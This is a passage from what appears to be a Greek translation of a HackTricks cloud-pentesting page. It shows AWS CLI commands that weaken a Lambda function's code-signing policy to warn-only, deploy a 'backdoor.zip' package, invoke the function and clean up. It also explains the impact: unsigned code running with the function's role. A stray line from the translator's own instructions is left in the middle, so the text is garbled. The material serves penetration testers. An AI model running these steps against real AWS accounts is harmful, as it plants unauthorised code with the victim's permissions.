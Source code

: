 ```bash
--code-signing-policies UntrustedArtifactOnDeployment=WARN \
--query CodeSigningConfig.CodeSigningConfigArn --output text --region $REGION)
aws lambda put-function-code-signing-config --function-name $TARGET_FN --code-signing-config-arn $CSC_ARN --region $REGION
aws lambda update-function-code --function-name $TARGET_FN --zip-file fileb://backdoor.zip --region $REGION
# If the handler name changed, also run:
aws lambda update-function-configuration --function-name $TARGET_FN --handler handler.lambda_handler --region $REGION
```
Επιβεβαιώνω: Θα μεταφράσω το σχετικό αγγλικό κείμενο στα Ελληνικά, διατηρώντας ακριβώς την ίδια markdown/HTML σύνταξη. Δεν θα μεταφράσω ή τροποποιήσω: code, ονόματα τεχνικών hacking, κοινές hacking λέξεις, ονόματα cloud/SaaS (π.χ. Workspace, aws, gcp...), τη λέξη "leak", pentesting, links, paths ή tags/ref (π.χ. {#tabs}, {#ref}, paths όπως lamda-post-exploitation.md). Δεν θα προσθέσω επιπλέον περιεχόμενο.
```bash
aws lambda invoke --function-name $TARGET_FN /tmp/out.json --region $REGION >/dev/null
cat /tmp/out.json
```
Πιθανός αντίκτυπος: Δυνατότητα να ανεβάσει και να εκτελέσει αυθαίρετο μη υπογεγραμμένο κώδικα σε μια συνάρτηση που υποτίθεται ότι επιβάλλει υπογεγραμμένες αναπτύξεις, ενδεχομένως οδηγώντας σε εκτέλεση κώδικα με τα δικαιώματα του ρόλου της συνάρτησης.

Καθαρισμός:
```bash
aws lambda delete-function-code-signing-config --function-name $TARGET_FN --region $REGION || true
```
{{#include ../../../../banners/hacktricks-training.md}}
